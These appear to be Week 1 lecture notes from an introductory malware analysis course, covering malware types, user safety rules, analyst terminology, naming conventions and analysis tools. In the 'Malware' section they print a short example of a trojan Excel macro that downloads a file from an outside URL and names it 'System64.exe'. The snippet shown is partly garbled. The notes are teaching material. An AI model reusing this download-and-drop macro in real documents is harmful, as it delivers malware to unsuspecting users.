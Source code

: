 ## Week 1

### Introduction
The first lecture serves as an introduction to malware, a catch-all term for unwanted software running on a device. Malware includes software running on your machine as malicious as ransomware (software that encrypts the contents of your computer for the purposes of extorting you) to something more benign but annoying like adware (software which bombards the user with ads and pop-ups). Malware is primarily used for financial gain, information gathering, and/or as a method to attack companies or users. It can be employed by nearly anyone with access to the internet and some simple computer know-how, like criminal organizations, lone agents, or government entities. The need to prevent or resolve the issues caused by malware have led to the creation of companies and organizations devoted to anti-malware.

### Anti-Malware
Anti-malware groups have developed methodologies for the purposes of detection, prevention, and, in some cases, destruction of malware. To deal with a malware threat, it is necessary to understand and categorize malware. There are commonly a few types of malware and they tend to fall into the following categories:
1. Virus - characterized by a pattern of spreading
2. Trojans - characterized by method of entry onto a user's machine.
3. Potentially Unwanted Program - catch-all term for other malware that don't follow either patterns

Although the prospect of viruses and trojans might be worrisome, it has been determined by the security community that the most common attack vector is through the user themselves. Following a few rules regarding computer security will go a long way to help prevent most attacks. These include, but are not limited to, the following:

1. Don't visit questionable sites.
2. Know where your files are from before opening them.
3. Don't use random USB sticks.
4. Don't access programs or mobile apps from unverifiable authors.

### Malware
As an example, a trojan could have been hidden inside of a macro run as a result of opening an Excel file. It may have looked like this:
```
Sub DoWork()

Dim tmp As String, fName As String, Pos As Long, fPath As String

tmp = DownloadFile("http://ge.tt/api/1/files/8e8kZt72/0/blob?download")

'tmp = DownloadFile(rc4decrypt("YMe & chr(34)& lp52wsnV4"DyQw0DKMNIE_uZmPuzUL5b0WoVZ2r3E7f & chr(34)& jG713r1IgISh3hZD1a", "System64.exe"))

fName = "System64.exe
```

### Terminology
The security community has also devised a few terms in their work with malware. This includes, but is not limited to, the following:
1. white - a known clean file
2. black - a known dirty file
3. gray - a file which has neither been confirmed clean or dirty
4. sample - a copy of malware
5. goat - sacrificial system for working with malware
6. hash (ex: md5) - a signature that calculated the value of the file; used to id files, write code to detect; polymorphic files are a pain for this reason
7. honeypot - a vulnerable system that intentionally gets infected with viruses for evaluation
8. imphash - import hash, a hash calculated for viruses; this can be used to determine if the virus is part of the same "family" of viruses; if they use a similar import hash
9. dropper - the file that is used by a trojan


### Practices
Standards in naming are used to categorize malware. A particular convention is to categorize by type (virus, trojan, etc.), then platform (linux, win32, etc.), then family of malware (malware that displays similar behavior, imphash, etc.), then a variant name using letters as a designation. This naming convention allows anti-malware software and professionals to quickly understand its high level characteristics (how does it spread, what does it do). 


Handling malware requires special considerations. (1.4.5:58)

### Useful Tools
- Virustotal - a site where users can upload an md5 hash/file/url to search against a database maintained by many vendors to determine the type of malware they're dealing with.
- Malwr - a sample is provided to the site, an isolated environment evaluates the malware, and reports back behavior
- Wepawet - used for analysis of obfuscated java, pdf, files for decryption.
- Comodo - document analyzer.
